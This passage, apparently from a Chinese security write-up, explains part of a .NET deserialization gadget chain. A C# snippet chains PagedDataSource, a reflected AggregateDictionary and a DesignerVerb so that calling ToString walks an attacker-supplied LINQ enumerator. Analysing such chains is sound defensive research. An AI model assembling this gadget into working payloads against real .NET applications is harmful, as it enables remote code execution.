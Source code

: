 ```bash
// PagedDataSource maps an arbitrary IEnumerable to an ICollection
PagedDataSource pds = new PagedDataSource() { DataSource = e3 };
// AggregateDictionary maps an arbitrary ICollection to an IDictionary 
// Class is internal so need to use reflection.
IDictionary dict = (IDictionary)Activator.CreateInstance(typeof(int).Assembly.GetType("System.Runtime.Remoting.Channels.AggregateDictionary"), pds);

// DesignerVerb queries a value from an IDictionary when its ToString is called. This results in the linq enumerator being walked.
DesignerVerb verb = new DesignerVerb("XYZ", null);
// Need to insert IDictionary using reflection.
typeof(MenuCommand).GetField("properties", BindingFlags.NonPublic | BindingFlags.Instance).SetValue(verb, dict);
```

第一步，使用`PagedDataSource`类将`IEnumerable`类型转换为`ICollection`类型，该类实现`ICollection`，dataSource 类型是`IEnumerable`

[![](assets/1701606703-63203072225bde16c1772e65a78c0f8a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231108202601-faa962a4-7e31-1.png)
